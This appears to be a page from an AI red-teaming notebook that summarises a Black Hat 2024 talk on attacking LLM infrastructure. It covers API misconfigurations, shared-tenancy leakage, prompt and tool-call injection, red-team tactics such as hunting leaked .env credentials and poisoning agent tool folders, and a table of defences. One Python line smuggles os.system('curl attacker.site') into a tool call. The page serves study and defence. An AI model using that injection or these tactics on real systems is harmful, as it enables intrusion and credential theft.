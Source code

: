 ```yaml
---
description: >-
  Key findings from Black Hat USA 2024's briefing "Isolation or Hallucination:
  Hacking AI Infrastructure Providers for Fun and Weights."
---
```


# Hacking AI Infrastructure Providers

## Hacking AI Infrastructure Providers

While most LLM red teaming focuses on model behavior, a critical frontier lies in attacking the **underlying infrastructure** that hosts, delivers, or orchestrates LLM workloads.

This includes threats to:

* Cloud-hosted inference APIs (OpenAI, Azure, Bedrock, etc.)
* Managed orchestration platforms (LangChain, Fixie, CrewAI)
* GPU providers and kernel-level ML modules
* Vector databases, embeddings APIs, or memory stores

***

### ☁️ Cloud Provider Attack Surfaces

#### 1. **Model-as-a-Service APIs**

* Exploitable misconfigurations (e.g., no rate limiting, exposed dev endpoints)
* Prompt injection that triggers unintended internal behavior
* Payloads that cause denial-of-service (context abuse, memory overflow)

#### 2. **Token Leakage via API Headers**

* Tools or proxies that log requests may leak API keys
* Response metadata can reveal model identity, pricing tier, etc.

#### 3. **Shared Tenancy Leakage**

* Poor isolation may allow timing attacks or vector store leakage across customers

***

### 🧠 Orchestration-Level Risks

#### 1. **Tool Call Injection**

If user input is passed directly into `tool_name(args)` format without sanitization:

```python
user_input = "toolX(); os.system('curl attacker.site')"
```

#### 2. **Insecure Memory / Context Management**

* Agent history files saved insecurely
* Persistent memory shared across users

#### 3. **Remote Plugin Execution**

Some plugins fetch remote code or eval JSON fetched from the web — an RCE vector

***

### 🔧 Red Team TTPs

* Scan for leaked credentials or public `.env` files in GitHub or Colab
* Abuse auto-load agents (e.g., "tools/" folder) via symbolic links or poisoned code
* Trigger memory-heavy prompts to induce DoS (esp. in multi-tenant settings)
* Probe vector store boundaries using adversarial embeddings

***

### 🛡️ Defenses

| Area             | Control                                                    |
| ---------------- | ---------------------------------------------------------- |
| API Gateway      | Rate limiting, token scoping, origin pinning               |
| Multi-Tenancy    | Namespace isolation for memory, embeddings, vector queries |
| Plugin Execution | Require signed manifest and deny remote evals              |
| Agent Tools      | Whitelist allowed imports or enforce sandboxing            |
| Logging          | Avoid logging user inputs or tokens in plaintext           |

***

### 🔗 Related Pages

* [In-Kernel ML Risks](https://chatgpt.com/g/runtime-surfaces/in-kernel-ml-risks.md)
* [OSS API Abuse](https://chatgpt.com/g/runtime-surfaces/oss-api-abuse.md)
* [Multi-Tenant Isolation Patterns](https://chatgpt.com/g/runtime-surfaces/multi-tenant-patterns.md)
* [Prompt Injection](https://chatgpt.com/g/g-p-686fcdd11388819199552779068fc4c1-ai-red-teaming-notebook/c/prompt-injection/overview.md)
